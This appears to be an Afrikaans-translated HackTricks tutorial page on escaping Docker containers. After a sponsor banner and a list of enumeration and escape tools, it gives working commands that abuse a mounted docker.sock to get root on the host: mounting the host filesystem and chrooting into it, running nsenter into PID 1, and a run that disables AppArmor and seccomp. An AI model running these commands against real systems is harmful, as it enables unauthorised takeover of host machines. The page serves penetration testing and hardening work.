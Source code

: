 \
Gebruik [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=docker-breakout-privilege-escalation) om maklik te bou en **werkstrome outomaties** aangedryf deur die wêreld se **mees gevorderde** gemeenskapshulpmiddels.\
Kry Vandaag Toegang:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=docker-breakout-privilege-escalation" %}

## Outomatiese Opsomming & Ontsnapping

* [**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): Dit kan ook **houers opsom**
* [**CDK**](https://github.com/cdk-team/CDK#installationdelivery): Hierdie hulpmiddel is baie **nuttig om die houer waarin jy is te opsom en selfs probeer om outomaties te ontsnap**
* [**amicontained**](https://github.com/genuinetools/amicontained): Nuttige hulpmiddel om die voorregte te kry wat die houer het om maniere te vind om daaruit te ontsnap
* [**deepce**](https://github.com/stealthcopter/deepce): Hulpmiddel om te opsom en te ontsnap uit houers
* [**grype**](https://github.com/anchore/grype): Kry die CVE's wat in die sagteware geïnstalleer in die beeld bevat

## Gemoniteerde Docker Sokkel Ontsnapping

As jy op een of ander manier vind dat die **docker-sokkel** binne die docker-houer gemoniteer is, sal jy daaruit kan ontsnap.\
Dit gebeur gewoonlik in docker-houers wat om een ​​of ander rede moet koppel aan die docker-daemon om aksies uit te voer.
```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```
In hierdie geval kan jy gewone docker-opdragte gebruik om met die docker-daemon te kommunikeer:
```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```
{% hint style="info" %}
In geval die **docker sokket op 'n onverwagte plek** is, kan jy steeds daarmee kommunikeer deur die **`docker`** bevel te gebruik met die parameter **`-H unix:///path/to/docker.sock`**
{% endhint %}
